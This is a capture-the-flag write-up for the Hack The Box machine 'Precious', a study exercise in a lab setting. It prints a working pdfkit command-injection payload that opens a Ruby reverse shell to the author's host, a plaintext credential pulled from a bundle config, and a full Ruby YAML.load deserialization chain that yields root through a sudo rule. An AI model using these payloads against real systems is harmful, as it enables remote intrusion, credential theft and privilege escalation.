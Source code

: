 # easy - Precious



## User flag

Ports scanned

```bash
» sudo nmap --open --min-rate 5000 -T4 -Pn -p- 10.129.36.115
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Getting web server info:

```bash
~p» curl -sI http://precious.htb/
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 483
Connection: keep-alive
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Fri, 02 Dec 2022 02:20:20 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
```

This form hangs, doesn't appear to do anything...

![image-20221201222102868](../../../../images/articles/precious/image-20221201222102868.png)

It can't load a remote url, so I'm passing a local (network) URL with `python -m http.server`

Then, it can finally generate a PDF file, which by reading its properties I can see this:

```bash
~/Downloads» strings sswaib4m7v3zspozoc5p56tct7mi0ypi.pdf | grep Generated
/Creator (Generated by pdfkit v0.8.6)
    <rdf:li>Generated by pdfkit v0.8.6</rdf:li>
```

By Googling I've found a common CVE: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795 and then I've crafted a simple string with does a ping to my host:

```bash
http://10.10.14.17:8000/?name=#{%20`ping -c 1 10.10.14.17`}
```

And then by reviewing my `tun0` icmp with `tcpdump` I started to receive traffic:

```14:57:22.415499 IP precious.htb > layer0: ICMP echo request, id 23221, seq 204, length 64
14:57:22.415529 IP layer0 > precious.htb: ICMP echo reply, id 23221, seq 204, length 64
14:57:23.378068 IP precious.htb > layer0: ICMP echo request, id 23221, seq 205, length 64
14:57:23.378109 IP layer0 > precious.htb: ICMP echo reply, id 23221, seq 205, length 64
```

So basically I can open a reverse shell with help of: https://www.revshells.com/

I will use a ruby interpreter, I know the server has ruby installed by reading these headers:

```
HTTP/1.1 200 OK
Content-Type: application/pdf
Content-Length: 9845
Connection: keep-alive
Status: 200 OK
Content-Disposition: attachment; filename="zydk1oz129qgluc7mh026jarv6u5fn5v.pdf"
Last-Modified: Wed, 14 Dec 2022 02:15:18 GMT
X-Content-Type-Options: nosniff
Date: Wed, 14 Dec 2022 02:15:18 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
```

I crafted the payload:

```
http://10.10.14.17:8000/?name=#{%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.17",9001))'`}
```

And voilá!

```bash
» nc -lvnp 9001
Connection from 10.129.32.16:33736
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
pwd
/var/www/pdfapp
```

I had to review HTB forums for hints, they suggested to look for hidden things once inside, and here we are:

```bash
ruby@precious:~$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

```bash
» ssh henry@precious.htb
The authenticity of host 'precious.htb (10.129.32.16)' can't be established.
...
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
```

## Root flag

Once inside the box, I'm trying to escalate privileges:

```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Reading the .rb file

```bash
henry@precious:~$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Notice it is reading a file without absolute path :evil: 

Ruby 2.7 has this vulnerability: https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/

Creating a vulnerable dependencies.yml:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

Testing the vulnerable yaml file, running command `id`

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
        25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
        21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
        20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
        19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
        18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
        14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
        13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
        12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
        11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
        10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
         9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
         8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
         7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
         6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
         5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
         3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
         2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```

Opening a shell as root:

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root@precious:/home/henry# id
uid=0(root) gid=0(root) groups=0(root)
```
